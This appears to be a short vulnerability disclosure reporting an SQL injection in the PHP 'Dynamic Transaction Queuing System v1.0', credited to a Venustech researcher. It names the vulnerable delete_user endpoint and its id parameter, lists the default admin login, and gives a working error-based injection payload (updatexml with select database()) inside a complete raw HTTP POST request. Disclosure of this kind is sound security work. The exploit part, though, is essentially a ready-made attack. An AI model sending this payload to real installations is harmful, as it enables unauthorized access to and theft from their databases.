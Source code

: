 # Dynamic Transaction Queuing System v1.0 by oretnom23 has SQL injection

Vulnerability Discoverer:  Yang Tao, TBLab of Venustech

Login account: admin/admin123 (Super Admin account)

vendors: https://www.sourcecodester.com/php/14479/dynamic-transaction-queuing-system-using-phpmysql-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File:  /queuing/admin/ajax.php?action=delete_user

Vulnerability location: /queuing/admin/ajax.php?action=delete_user, id

dbname =queuing_db

[+] Payload: id=1 and updatexml(1,concat(0x7e,(select database()),0x7e),0) // Leak place ---> id

```sql
POST /queuing/admin/ajax.php?action=delete_user HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=t4551shae3529036q2g0j8luub
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 66

id=1 and updatexml(1,concat(0x7e,(select database()),0x7e),0)
```

![image](https://user-images.githubusercontent.com/54017627/200098088-0dfde657-e1d0-447f-b10d-1e4c8ce170dc.png)
